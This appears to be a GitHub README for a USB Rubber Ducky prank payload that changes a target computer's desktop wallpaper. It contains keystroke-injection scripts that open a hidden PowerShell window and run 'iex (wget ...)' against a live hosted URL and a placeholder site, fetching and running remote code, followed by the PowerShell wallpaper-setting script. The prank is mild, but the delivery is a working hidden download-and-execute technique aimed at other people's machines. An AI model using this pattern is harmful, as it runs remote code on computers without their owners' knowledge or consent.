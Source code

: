 Pre-written and execution-ready code:

If you do not have access to a web server and want to get this running, here is pre-uploaded code. Code is at [this gist](https://gist.github.com/judge2020/034d6201d6b24f079e0d692bea3e92b0) containing the PS code, and the image is hosted on GitHub directly.

By default, it goes to an My Little Pony image, however you can set the 'image' GET parameter to change it at will. Eg change `https://judge.sh/wallpaper.php` to 'https://judge.sh/wallpaper.php?image=https://imgur.com/test.png'.
```
SLEEP 1000
GUI r
DELAY 250
STRING powershell -windowstyle hidden iex (wget https://judge.sh/wallpaper.php)
ENTER
```


Below is original text
---


GET THE CODE SNIPS HERE:

http://lostserver.com/static/rubberduckcode.txt

It will set the background image on a targets pc to whatever jpg you want - i recommend mylittleponys :) 

Regards Keld Norman@DK

Write this code to your Rubber Ducky payload file using the encoder, the wget is an alias that exist in powershell already: 
---------------------------------------------------------------------
```
SLEEP 600
GUI r
DELAY 150
STRING powershell -windowstyle hidden iex (wget http://your-website.com/powershellscript.ps)
ENTER
```
The Powershell script on your webserver (http://your-website.com/powershellscript.ps):
---------------------------------------------------------------------
```
(new-object System.Net.WebClient).DownloadFile('http://your-website.com/mylittlepony.jpg',"$Env:Temp\\b.jpg");
Add-Type @"
using System;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace Wallpaper
{
 public enum Style : int
{
    Tile, Center, Stretch, NoChange
 }
 public class Setter {
  public const int SetDesktopWallpaper = 20;
  public const int UpdateIniFile = 0x01;
  public const int SendWinIniChange = 0x02;
  [DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
  private static extern int SystemParametersInfo (int uAction, int uParam, string lpvParam, int fuWinIni);
  public static void SetWallpaper ( string path, Wallpaper.Style style ) {
     SystemParametersInfo( SetDesktopWallpaper, 0, path, UpdateIniFile | SendWinIniChange );
     RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\\\Desktop", true);
     switch( style )
     {
        case Style.Stretch :
           key.SetValue(@"WallpaperStyle", "2") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Center :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Tile :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "1") ;
           break;
        case Style.NoChange :
           break;
     
     key.Close();
      }
    }
}
"@
[Wallpaper.Setter]::SetWallpaper("$Env:Temp\b.jpg" , 2 )
```
